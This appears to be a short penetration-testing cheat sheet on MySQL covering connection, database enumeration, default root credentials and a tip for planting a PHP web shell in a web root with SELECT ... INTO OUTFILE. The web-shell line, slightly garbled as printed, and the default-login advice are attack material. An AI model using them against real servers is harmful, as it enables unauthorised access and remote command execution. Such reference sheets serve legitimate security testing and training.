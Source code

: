 ```yaml
---
authors: ShutdownRepo, 0xbugatti
---
```


# 🛠️ MySQL

# `3306 TCP`
## Introduction 
## SQL Interaction
- Connection 
	- `mysql -u root -pP4SSw0rd -h 10.129.14.12:port`
- DB Enum
    
    - Data Base Enumeration 
	    - `show databases;`
	    - `use DBName;`
	    - `show tables;`
	    - `SHOW COLUMNS FROM mytable FROM mydb;`
	    - `select col1 from mytable ;`
- OS & DBMS Enum
	- `select version()`
	- `use sys ; select host ,unique_users from host_summary;`
    
## Misconfiguration 
    
- Publicly Exposed and Not Locally accessed 
- Default Credentials 
	- `user :  root`
	- NO Password : Empty 
    
    > [!SUCCESS]TIP:  
    >use with nmap --script mysql*


	   
    > [!SUCCESS]TIP:   WebUI service Exposed related to MySql Exposed Login with same default credentials 



> [!NOTE] TIP 
> Here Simple Way to Abuse MySql to Take Reverse Shell in a Running WebAPP via Upload file
> ``` 
> SELECT "<? php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"`
> ```



